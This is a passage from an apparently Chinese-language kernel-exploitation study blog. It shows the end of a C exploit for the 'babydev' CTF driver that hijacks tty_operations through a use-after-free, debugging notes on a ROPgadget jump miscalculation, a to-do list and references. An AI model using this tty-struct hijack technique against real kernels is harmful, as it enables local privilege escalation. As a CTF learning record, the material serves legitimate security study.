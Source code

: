 ```c

    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);
    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);
    read(fd2, fake_tty, 32);
    fake_tty[3] = &tty_ops;
    write(fd2, fake_tty, 32);

    ioctl(fd_tty, 0, 0);   

    return 0;
}
```

## ERROR & PROBLEM

- musl-gcc 编译 32bit出错

- ROPgadget 计算jmp relative地址错误

```shell
pwndbg> x/4i 0xffffffff8181bfc5
   0xffffffff8181bfc5:	mov    rsp,rax
   0xffffffff8181bfc8:	dec    ebx
   0xffffffff8181bfca:	jmp    0xffffffff8181bf7e
   0xffffffff8181bfcc:	nop    DWORD PTR [rax+0x0]
pwndbg> x/hx 0xffffffff8181bfca
0xffffffff8181bfca:	0xb2eb
```

ROPgadget所显示的gadget为`0xffffffff8181bfc5 : mov rsp, rax ; dec ebx ; jmp 0xffffffff8181bf83`。

从pwndbg得到opcode`ebb2`，是`jmp rel8`类型[ref](http://ref.x86asm.net/coder64.html#xEB)，八位相对地址跳转`b2`最高位为1，是负数-0x4e，也就是向低地址跳转，`0xffffffff8181bfcc-0x4e = 0xffffffff8181bf7e`。

## to do list

1. 如何定位call rax/call [rax+0x38]（tty_operation)
2. struct size 计算。编译简单module [ref1](http://myhackerworld.top/2019/01/06/%E5%86%85%E6%A0%B8pwn-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/) [ref2](https://www.anquanke.com/post/id/203399#h2-10)

**to be continued**

## 参考

1. [How to compile and install linux kernel 5.6.9 from souce code?](https://www.cyberciti.biz/tips/compiling-linux-kernel-26.html)
2. [How to Build A Custom Linux Kernel For Qemu?](http://mgalgs.github.io/2012/03/23/how-to-build-a-custom-linux-kernel-for-qemu.html)
3. [Linux Kernel Pwn ABC(Ⅰ)](https://m4x.fun/post/linux-kernel-pwn-abc-1)
4. [Linux Kernel Pwn ABC(II)](https://m4x.fun/post/linux-kernel-pwn-abc-2/)
5. [Kernel调试文件总结](https://binlep.github.io/2020/03/12/%E3%80%90Pwn%20%E7%AC%94%E8%AE%B0%E3%80%91Linux%20Kernel%20%E8%B0%83%E8%AF%95%E6%96%87%E4%BB%B6%E6%80%BB%E7%BB%93/)
6. [What is the difference between the following kernel Makefile terms: vmLinux, vmlinuz, vmlinux.bin, zimage & bzimage?](https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml)
7. [Kernel Pwn 学习之路(一)][https://www.anquanke.com/post/id/201043]
8. [what's the difference between iret and iretd,iretq?](https://stackoverflow.com/questions/11756153/whats-the-difference-between-iret-and-iretd-iretq)
9. [How to share files instantly between virtual machines and host](http://blog.vmsplice.net/2011/09/how-to-share-files-instantly-between.html)
10. [Linux Pwn技巧总结_1 -- V1NKe](https://xz.aliyun.com/t/4529)